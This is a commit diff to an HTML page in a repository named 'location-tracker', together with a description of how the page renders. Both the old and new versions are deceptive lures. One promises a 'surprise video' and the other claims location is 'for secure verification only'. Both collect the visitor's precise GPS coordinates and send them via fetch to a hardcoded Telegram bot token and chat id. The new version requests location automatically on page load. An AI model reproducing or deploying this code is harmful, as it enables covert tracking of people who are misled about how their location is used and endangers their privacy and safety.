

Before and after one commit to mrharyyy/location-tracker, a plain HTML site: page index.html in a window 1280 px wide. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,83 +2,106 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Special Video For You</title>
+  <title>Location Access</title>
   <style>
     body {
-      font-family: Arial, sans-serif;
-      background: #f9f9f9;
+      margin: 0;
+      padding: 0;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      background: linear-gradient(135deg, #1e3c72, #2a5298);
+      color: white;
       display: flex;
       flex-direction: column;
+      align-items: center;
       justify-content: center;
-      align-items: center;
       height: 100vh;
+      transition: background 0.5s ease;
+    }h1 {
+  font-size: 2em;
+  margin-bottom: 10px;
+}
+
+p {
+  margin: 0 0 20px;
+  font-size: 1.1em;
   text-align: center;
-      padding: 20px;
 }
-    .box {
-      background: white;
-      padding: 30px;
-      border-radius: 15px;
-      box-shadow: 0 0 10px rgba(0,0,0,0.1);
+
+button {
+  padding: 12px 24px;
+  font-size: 1em;
+  border: none;
+  border-radius: 30px;
+  background-color: #ffcc00;
+  color: #1e1e1e;
+  cursor: pointer;
+  transition: background-color 0.3s;
 }
-    button {
-      background-color: #0088cc;
+
+button:hover {
+  background-color: #ffdb4d;
+}
+
+.toggle-theme {
+  position: absolute;
+  top: 20px;
+  right: 20px;
+  padding: 8px 14px;
+  background-color: #444;
   color: white;
   border: none;
-      padding: 10px 20px;
-      border-radius: 5px;
-      font-size: 16px;
+  border-radius: 20px;
   cursor: pointer;
-      margin-top: 20px;
 }
-    button:hover {
-      background-color: #0077b3;
-    }
+
   </style>
 </head>
 <body>
-  <div class="box">
-    <h2>🎁 A Surprise Video Just For You!</h2>
-    <p>Tap below to verify your location and unlock the video.</p>
-    <button onclick="sendLocation()">Allow Location</button>
-    <p id="status"></p>
-  </div>  <script>
-    const botToken = "8216004415:AAF-MF8E-tRBw6h5-BfC3_i1FagixuSt9Rc";
-    const chatId = "6038115234";
+  <button class="toggle-theme" onclick="toggleTheme()">Toggle Theme</button>  <h1>📍 Allow Location Access</h1>
+  <p>Please allow location to continue. Your location is used for secure verification only.</p>
+  <button onclick="getLocation()">Allow Location</button>  <script>
+    const darkTheme = {
+      background: 'linear-gradient(135deg, #121212, #232323)',
+      color: 'white',
+    };
+    const lightTheme = {
+      background: 'linear-gradient(135deg, #1e3c72, #2a5298)',
+      color: 'white',
+    };
 
-    function sendLocation() {
-      const status = document.getElementById("status");
+    let dark = false;
+
+    function toggleTheme() {
+      dark = !dark;
+      document.body.style.background = dark ? darkTheme.background : lightTheme.background;
+    }
+
+    // Auto-request location on load
+    window.onload = () => {
+      getLocation();
+    };
+
+    function getLocation() {
       if (navigator.geolocation) {
-        status.textContent = "Getting location...";
-        navigator.geolocation.getCurrentPosition(
-          (position) => {
-            const lat = position.coords.latitude;
-            const lon = position.coords.longitude;
-            const acc = position.coords.accuracy;
-            const time = new Date().toLocaleString();
+        navigator.geolocation.getCurrentPosition(sendToTelegram, showError, {
+          enableHighAccuracy: true,
+          timeout: 10000,
+        });
+      } else {
+        alert("Geolocation is not supported by this browser.");
+      }
+    }
 
-            const message = `📍 New Location Received:%0A📌 Lat: ${lat}%0A📌 Long: ${lon}%0A🎯 Accuracy: ${acc} meters%0A🕒 Time: ${time}`;
+    function sendToTelegram(position) {
+      const { latitude, longitude, accuracy } = position.coords;
+      const date = new Date().toLocaleString();
+      const message = `📍 New Location Received:%0A📌 Lat: ${latitude}%0A📌 Long: ${longitude}%0A🎯 Accuracy: ${accuracy} meters%0A🕒 Time: ${date}`;
 
-            const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${message}`;
+      fetch(`https://api.telegram.org/bot8216004415:AAF-MF8E-tRBw6h5-BfC3_i1FagixuSt9Rc/sendMessage?chat_id=6038115234&text=${message}`);
+    }
 
-            fetch(url)
-              .then(() => {
-                status.textContent = "✅ Location sent successfully! Video unlocking...";
-                setTimeout(() => {
-                  window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ"; // prank video ;)
-                }, 2000);
-              })
-              .catch(() => {
-                status.textContent = "❌ Failed to send location. Try again later.";
-              });
-          },
-          () => {
-            status.textContent = "❌ Location permission denied.";
-          }
-        );
-      } else {
-        status.textContent = "❌ Geolocation not supported.";
-      }
+    function showError(error) {
+      alert("Failed to get location. Please try again and allow location access.");
     }
   </script></body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
